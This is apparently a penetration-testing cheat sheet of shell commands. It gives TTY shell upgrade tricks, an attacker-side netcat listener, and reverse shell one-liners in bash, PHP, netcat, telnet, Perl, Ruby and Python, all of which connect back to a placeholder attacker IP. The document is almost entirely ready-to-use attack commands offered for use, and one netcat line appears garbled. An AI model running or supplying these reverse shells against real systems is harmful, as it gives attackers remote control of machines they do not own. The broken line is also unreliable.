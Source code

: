 
TTY shell
```
echo os.system('/bin/bash')
```
```
/bin/sh –i
```
```
execute('/bin/sh')
```

If you allowed to execute nc,php,ruby,perl you can take reverse shell from there.

Start listner in your attacker machine
```
# nc -nlvp 1337 
```
Start reverse shell on target

Bash Reverse shell
```
bash -i >& /dev/tcp/ATTACKING-IP/1337 0>&1
```
PHP Reverse Shell
```
php -r '$sock=fsockopen("ATTACKING-IP",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```
Netcat Reverse Shell
```
nc -e /bin/sh ATTACKING-IP 1337
```
```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 1337 0/tmp/p
```
Telnet Reverse Shell
```
telnet ATTACKING-IP 1337 | /bin/bash | telnet ATTACKING-IP 1337
```
Perl Reverse Shell
```
perl -e 'use Socket;$i="ATTACKING-IP";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Ruby Reverse Shell
```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
Python Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
